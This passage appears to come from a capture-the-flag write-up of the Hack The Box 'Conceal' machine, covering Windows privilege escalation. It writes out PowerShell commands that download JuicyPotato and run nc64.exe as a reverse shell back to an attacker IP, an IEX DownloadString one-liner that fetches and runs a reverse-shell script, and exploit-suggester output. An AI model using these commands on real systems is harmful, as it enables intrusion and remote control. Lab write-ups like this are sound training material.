 Groups looks pretty normal, nothing really going on there.
We can see from the privs that we have 'SeImpersonatePrivilege', maybe we can use JuicyPotato?


3. Trying to execute JuicyPotato unfortunately locally and remotely triggers the AV;
C:\Users\Destitute\Documents> powershell Invoke-WebRequest -Uri "http://10.10.14.11:8080/JuicyPotato.exe" -OutFile jp.exe
C:\Users\Destitute\Documents> powershell -c "C:\Users\Destitute\Documents\jp.exe -l 1444 -p c:\tmp\nc64.exe -a "10.10.14.11 4499 -e cmd" -t * -c {F7FD3FD6-9994-452D-8DA7-9A8FD87AEEF4}"
  --- snip ---
  Program 'jp.exe' failed to run: Operation did not complete successfully because the file contains a virus or
  potentially unwanted software

We can't even setup a new reverse Powershell shell with Nishang's Invoke-PowerShellTcp without the AV complaining;
C:\Users\Destitute\Documents> powershell -c IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.11:8080/Invoke-PowerShellTcp.ps1')
  --- snip ---
  This script contains malicious content and has been blocked by your antivirus software.


Seems like we need to look for another privesc.


4. Grab systeminfo and throw it to windows-exploit-suggester.

[root:/git/htb/conceal]# python /opt/windows-exploit-suggester.py --update                                                        (master✱)
[root:/git/htb/conceal]# python /opt/windows-exploit-suggester.py --database 2021-03-25-mssb.xls --systeminfo systeminfo.txt
  [*] initiating winsploit version 3.3...
  [*] database file detected as xls or xlsx based on extension
  [*] attempting to read from the systeminfo input file
  [+] systeminfo input file read successfully (ascii)
  [*] querying database file for potential vulnerabilities
  [*] comparing the 0 hotfix(es) against the 160 potential bulletins(s) with a database of 137 known exploits
  [*] there are now 160 remaining vulns
  [+] [E] exploitdb PoC, [M] Metasploit module, [*] missing bulletin
  [+] windows version identified as 'Windows 10 64-bit'
  [*]
  [E] MS16-135: Security Update for Windows Kernel-Mode Drivers (3199135) - Important
  [*]   https://www.exploit-db.com/exploits/40745/ -- Microsoft Windows Kernel - win32k Denial of Service (MS16-135)
  [*]   https://www.exploit-db.com/exploits/41015/ -- Microsoft Windows Kernel - 'win32k.sys' 'NtSetWindowLongPtr' Privilege Escalation (MS16-135) (2)
  [*]   https://github.com/tinysec/public/tree/master/CVE-2016-7255
  [*]
  [E] MS16-129: Cumulative Security Update for Microsoft Edge (3199057) - Critical
  [*]   https://www.exploit-db.com/exploits/40990/ -- Microsoft Edge (Windows 10) - 'chakra.dll' Info Leak / Type Confusion Remote Code Execution
  [*]   https://github.com/theori-io/chakra-2016-11
  [*]
  [E] MS16-098: Security Update for Windows Kernel-Mode Drivers (3178466) - Important
  [*]   https://www.exploit-db.com/exploits/41020/ -- Microsoft Windows 8.1 (x64) - RGNOBJ Integer Overflow (MS16-098)
  [*]
  [M] MS16-075: Security Update for Windows SMB Server (3164038) - Important
  [*]   https://github.com/foxglovesec/RottenPotato
  [*]   https://github.com/Kevin-Robertson/Tater
  [*]   https://bugs.chromium.org/p/project-zero/issues/detail?id=222 -- Windows: Local WebDAV NTLM Reflection Elevation of Privilege
  [*]   https://foxglovesecurity.com/2016/01/16/hot-potato/ -- Hot Potato - Windows Privilege Escalation
  [*]
  [E] MS16-074: Security Update for Microsoft Graphics Component (3164036) - Important
